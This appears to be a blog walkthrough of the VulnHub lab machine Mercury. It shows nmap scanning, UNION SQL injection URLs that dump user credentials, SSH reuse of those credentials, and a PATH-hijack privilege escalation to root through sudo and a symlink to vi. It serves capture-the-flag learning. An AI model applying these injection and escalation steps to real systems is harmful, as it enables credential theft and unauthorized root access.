 ```yaml
---
title: Mercury
date: 2022-01-18 10:00:00 +0530
categories: [Vulnhub]
tags: [vulnhub, sqli, sqlmap, ssh, privlege-escalation]
---
```


## Intro

[Mercury](https://www.vulnhub.com/entry/the-planets-mercury,544/) is a an easy box, freely available on [vulnhub](https://vulnhub.com). The creator of the machine mentions on the page that there are two flags, one being the user flag and the other being the root flag, so nothing out of ordinary so far.  

## Enumeration

### Nmap

To begin with, we will start a quick nmap scan to identify all the open ports and possibly all the services which are running on those open ports as well. I like to use the following tags and scan all the open ports on the machine. It might be time consuming but it is better to be thorough than missing something crucial.
```
nmap -sC -sV -v -p- --open -oN nmap_scan 10.0.2.4
```
Here is a quick description of all the tags used - 
* -sC: Instrcut nmap to use all the default scripts
* -sV: Help identifying the services running on the open ports
* -v: Gives a verbose output
* -p: Specify which port range to scan. Addning '-' at the end will scan all the ports
* --open: Only show open ports
* -oN: Specify output file

![nmap_scan_mercury](/assets/mercury/Nmap_scan.png)

In the above scan we can see that there are two different ports open - 
1. 22: Running regular SSH service
2. 8080: Running a WSGi Server

Upon visiting the website on port 8080 we are greeted by a very simple page saying that the site is under development.  

![default_site](/assets/mercury/default_site.png)

Manually probing around the website and minor tinkering with the directory shows that the debugger for the web app was enabled and the benevolent error page revealed a new directory which could be of our interest.

![error](/assets/mercury/Error.png)

The new directory which we found is mercuryfacts. Upon visiting it, we can see that there is a fairly incomplete website as mentioned by the previous page.

![mercuryfacts](/assets/mercury/Mercuryfacts.png)

It further links to two different pages, one is a to-do list and the other is a mercury fact.

In the to-do list we get to see some interesting entries.

![todo](/assets/mercury/todo.png)

The third entry is of interest to us. It shows us a possible SQL Injection vector on the facts page.

### Exploitation

And as suspected we get a SQL error and there indeed is a SQLi vulnerability and the error page shown below also greets us with the whole sql statement which the framework is trying to use.

![sqli](/assets/mercury/SQL_statement.png)

Using the union command in SQL, we can run our custom statements on the MySQL server.
Here is the whole url used
```
http://10.0.2.4:8080/mercuryfacts/1 union all SELECT user()
```

![sql_test](/assets/mercury/sql_test.png)

To check the available databases, we can run the following command and get the output on the facts page.

```
http://10.0.2.4:8080/mercuryfacts/1 union all SELECT schema_ name FROM information schema.schemata
```

![two_db](/assets/mercury/Two_DBs.png)

We can see that there is only one distinct database "Mercury" of interest. Let's check the tables in it.

```
http://10.0.2.4:8080/mercuryfacts/1 union all SELECT table name FROM information _schema.tables;
```

![users_table](/assets/mercury/Users_table.png)

Out of the whole list only users table strike out and moreover it was also referred in the to-do list, lets see what the users table hold for us.

````
http://10.0.2.4:8080/mercuryfacts/1 union all SELECT column name FROM information _schema.columns WHERE table name = ‘users’
````

![actual_content](/assets/mercury/Actual_user.png)

Now we can see that there are three fields only
1. ID
2. Username
3. Password

Now it is time to extract the credentials for different users.

```
http://10.0.2.4:8080/mercuryfacts/1 union all SELECT group concat(username,"-",password) from users
```

![passwords](/assets/mercury/passes.png)

For the next step, we can try using these credentials on the SSH and see if by any chance, some credential works there.

And bingo! the webmaster credentials seem to be working for the SSH and now it is time for some privilege escalation.

![webmaster_login](/assets/mercury/Webmaster_login.png)

### Privilege Escalation

Looking around the Webmaster's home directory we found out the user_flag! We can tick that one off the list.

![user_flag](/assets/mercury/User_flag.png)

There is another interesting directory in the home folder called "mercury_proj" which seems to hold the website files. There is a notes.txt file which seems to hold base64 encoded password for a different user called linuxmaster. Let's decode it and get a hold of that account as well! To decode the password, we can use the following command

```
echo "base64 encoded string" | base64 -d
```
The password which we get as a result is 
```
mercurymeandiameteris4880km
```
![linuxmaster](/assets/mercury/linuxmaster_pass.png)

Running the "sudo -l" command shows us that linuxmaster user can execute a shell script. But since we can not edit the file so we can not edit the file and get a reverse shell as root. Let's find another way to root.

![sudo-l](/assets/mercury/Sudo-l.png)

Taking a quick look at the shell script we can see that it executes "tail" as root user.  
Our linuxmaster user can create symbolic links, which means that we can link tail command to a different binary such as vi which can give us an easy way to a root shell. Following commands will create a link of "tail" to "vi" and help us get root shell.  
```
ln -s /usr/bin/vi tail
export PATH=.:$PATH
sudo --preserve-env=PATH /usr/bin/check_syslog.sh
```
The first command will create a symbolic link between tail an vi.  
Then the second command will update PATH variable with our new PATH. And the third command will execute the shell script with our current PATH

![getting_to_root](/assets/mercury/getting_to_root.png)

Now all we have to break out of Vi is to type ":shell" and we should be good to go.

![shell](/assets/mercury/shell.png)

And we have the root! If we head over to the root user's home directory we will see our second and final flag!

![root_flag](/assets/mercury/Root.png)

With this we have completed Mercury.
